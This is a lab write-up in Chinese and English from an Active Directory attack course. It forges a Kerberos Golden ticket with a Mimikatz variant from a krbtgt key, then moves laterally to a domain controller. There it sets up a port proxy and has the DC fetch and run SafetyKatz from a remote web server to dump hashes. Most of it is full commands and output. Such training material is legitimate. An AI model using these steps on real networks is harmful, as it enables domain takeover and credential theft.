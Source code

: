 Task
•  Using the NTLM hash or AES key of krbtgt account of us.techcorp.local, create a Golden ticket.
•  Use the Golden ticket to (once again) get domain admin privileges from a machine.

# Using the NTLM hash or AES key of krbtgt account of us.techcorp.local, create a Golden ticket.

在hands-on 11我们已经拿到krtgt的哈希，现在可以拿来申请一张金票

```
PS C:\Windows\system32> C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
[+] Stolen from @harmj0y, @TheRealWover, @cobbr_io and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
[+] Randomizing strings in memory
[+] Suicide burn before CreateThread!

  .#####.   STH8YPVC 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "SG5STLYOPBQM1J5QHU4" - (2ZSR9)
 ## / \ ##  /*** H37CADQDEN5XHW `5JJK91LL7P` ( PTU1RF07@5JJK91LL7P.com )
 ## \ / ##       > https://blog.5JJK91LL7P.com/STH8YPVC
 '## v ##'       DZ9AM81SJDVBRP5             ( 1ZV9CVQKU8L7DRDBIE3ERF84 )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

STH8YPVC(commandline) # kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-
2521448726-163245708 /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /startoffset:0 /endin:600 /renewmax:10080 /ptt
User      : Administrator
Domain    : us.techcorp.local
VU54FELKey: 5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 - aes256_hmac
Lifetime  : 11/2/2022 3:03:41 AM ; 11/2/2022 1:03:41 PM ; 11/9/2022 3:03:41 AM
-> Ticket : ** Pass The Ticket **

 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ us.techcorp.local' successfully submitted for current session

STH8YPVC(commandline) # exit
Bye!
```

上面命令执行完会把ticket导入到当前session

查看
```
PS C:\Windows\system32> klist

Current LogonId is 0:0xead79a

Cached Tickets: (1)

#0>     Client: Administrator @ us.techcorp.local
        Server: krbtgt/us.techcorp.local @ us.techcorp.local
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 11/2/2022 3:03:41 (local)
        End Time:   11/2/2022 13:03:41 (local)
        Renew Time: 11/9/2022 3:03:41 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

# Use the Golden ticket to (once again) get domain admin privileges from a machine.


1. 横向到dc

```
PS C:\Windows\system32> winrs -r:us-dc cmd
Microsoft Windows [Version 10.0.17763.2928]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>hostname
hostname
US-DC

C:\Users\Administrator>whoami
whoami
us\administrator

```

2. 传Loader.exe

```
echo F | xcopy C:\AD\Tools\Loader.exe \\us-dc\C$\Users\Public\Loader.exe /Y
```

3. 操纵流量

```
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.138
```

4. load mimikatz,dump哈希

学生机用pyhon开一个web服务

DC上执行
```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```